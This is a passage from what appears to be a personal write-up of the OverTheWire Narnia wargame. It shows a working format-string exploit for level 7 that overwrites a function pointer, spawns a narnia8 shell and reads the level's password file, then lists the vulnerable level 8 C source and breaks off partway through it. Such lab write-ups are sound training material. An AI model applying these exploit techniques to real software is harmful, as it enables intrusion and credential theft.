```
Ahh yes! Did you catch the mistake? Since ```buffer``` is located ```AFTER``` ```ptrf```, we can't overwrite the supposed first parameter, but the second! As you can see in the memory dump above, if we were to use ```$1``` we would write at the address deferentiated by ```fptr```, which gives us ```Segmentation Fault```. That's why the fix is ```$2``` instead, so we can write into the buffer deferentiated by the address located in the beginning of ```buffer```, which is exactly the address of ```fptr```! Nice one ```OverTheWire```!
```
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x68\xd5\xff\xff" + "%134514464x%2$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd568)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
```
I actually enjoyed thid one! :)

## Level 8 -> 9 ##
Alright, here we are! The final challenge!
```
narnia8@narnia:~$ cd /narnia
narnia8@narnia:/narnia$ cat narnia8.c
```
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];

	printf("%s\n",bok);
}

int main(int argc, char **argv){

	if(argc > 1)
		func(argv[1]);
	else
	printf("%s argument\n", argv[0]);
